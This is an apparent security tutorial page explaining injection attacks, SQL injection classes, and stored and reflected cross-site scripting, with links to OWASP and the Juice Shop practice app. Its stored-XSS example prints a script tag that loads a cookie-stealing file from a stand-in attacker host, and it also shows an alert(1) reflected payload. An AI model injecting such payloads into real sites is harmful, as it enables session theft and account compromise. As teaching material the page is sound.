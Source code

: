 ```yaml
---
date: 2018-08-10
title: Injections
categories:
  - security
description:
type: Document
set: security
set_order: 7
---
```


## General information

Injection attacks refer to a broad class of attack vectors that allow an attacker to supply untrusted input to a program,
which gets processed by an interpreter as part of a command or query which alters the course of execution of that program. Injection
attacks are amongst the oldest and most dangerous web application attacks.

## SQL injection

SQL Injection is one of the most dangerous vulnerabilities a web application can be prone to. When a user’s input is being
passed unvalidated and unsanitzed as part of an SQL query that means that the user can manipulate the query itself and force
it to return different data than what it was supposed to return.

SQL Injection attacks can be divided into the following three classes:
* Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
* Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
* Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

A successful SQL Injection attack requires the attacker to craft a syntactically correct SQL Query. If the application returns an error message generated by an incorrect query, then it may be easier for an attacker 
to reconstruct the logic of the original query and, therefore, understand how to perform the injection correctly. However, if the application hides the error details, then the tester must be able to reverse engineer the logic of the original query.

## Basic examples

While browsing an e-commerce website, a perpetrator discovers a vulnerability that allows HTML tags to be embedded in the site’s comments section. The embedded tags become a permanent feature of the page, causing the browser to parse them with the rest of the source code every time the page is opened.

The attacker adds the following comment: Great price for a great item! Read my review here <script src=”http://hackersite.com/authstealer.js”> </script>.

From this point on, every time the page is accessed, the HTML tag in the comment will activate a JavaScript file, which is hosted on another site, and has the ability to steal visitors’ session cookies.

Using the session cookie, the attacker can compromise the visitor’s account, granting him easy access to his personal information and credit card data. Meanwhile, the visitor, who may never have even scrolled down to the comments section, is not aware that the attack took place.

Now let's consider reflected XSS attack example. Imagine that you have input field which allows you to perform search on the site. You input something like `<script>alert(1)</script>foo` into it and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, and you'll get a popup in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.

## What's next?

Here are some useful links to expand your knowledge:
* Extended info about vulnerability is listed on [OWASP article](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005));
* Good explanation of this attack including examples you can find [here](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/); 
* [Extended info](http://phpsecurity.readthedocs.io/en/latest/Injection-Attacks.html) about different types of injections. 
* You can practise your skills on [juice-shop](https://github.com/bkimminich/juice-shop) app.
